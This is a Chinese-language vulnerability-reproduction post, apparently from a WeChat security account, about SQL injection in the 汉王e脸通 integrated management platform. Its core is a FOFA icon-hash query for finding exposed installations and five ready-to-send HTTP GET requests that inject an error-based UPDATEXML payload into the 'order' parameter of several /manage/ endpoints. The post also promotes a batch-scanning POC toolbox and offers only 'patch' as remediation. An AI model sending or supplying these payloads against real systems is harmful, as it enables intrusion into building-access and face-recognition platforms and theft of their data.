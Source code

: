 #  汉王e脸通综合管理平台存在SQL注入漏洞 附POC  
2025-7-16更新  南风漏洞复现文库   2025-07-16 15:55  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 汉王e脸通综合管理平台简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
汉王e脸通综合管理平台  
## 2.漏洞描述  
  
汉王e脸通综合管理平台存在SQL注入漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
汉王e脸通综合管理平台  
  
![汉王e脸通综合管理平台存在SQL注入漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6BfAf5BmXdBzbxQeEPBxOzUWmR62WyNt76YOzuVbViazXZgoj8DhajmA/640?wx_fmt=png&from=appmsg "null")  
  
汉王e脸通综合管理平台存在SQL注入漏洞  
## 4.fofa查询语句  
  
icon_hash="1380907357"  
## 5.漏洞复现  
  
漏洞数据包：  
```
GET /manage/authMultiplePeople/queryManyPeopleGroupList.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
```  
```
GET /manage/authMultiplePeople/getGroupEmployee.do?recoToken=67mds2pxXQb&page=1&pageSize=10&groupId=1&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
```  
```
GET /manage/firstPeopleOpen/getDoors.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
```  
```
GET /manage/antisubmarine/queryAntisubmarineList.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
```  
```
GET /manage/authMultiplePeople/getValidEmpForGroup.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6JMWRmxcZibOl3Fib4fXHjgLEM1m2s1mhCnGeu3nQtYCibpvH4axYBpK6g/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO61AV3ROuVPXswd9dZ0Ir4IDl6fcTdXfuWRY5GcmdyF2oicEoUJc6omxg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6JbiayrW9Xmmle1YE10XEmYB1veqELmqJEzsMztLiaNFgIXUE6vXTofCg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6ea7CTUabmAMKh8lA05tQQRpsAA1vb5xOoiarLkyPiabMzciaWNQWgyNQQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO61yF2HfkGPwINg6zicNia4aGmd8IsfjBp5cqibkd80omIqTtTGa2icYV4rQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6lSMvQEleN4fKurBKTsbGbvibEmKGRdM1VMwfCBFEicT9pYFQXPTkv82A/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
   
  
  
  

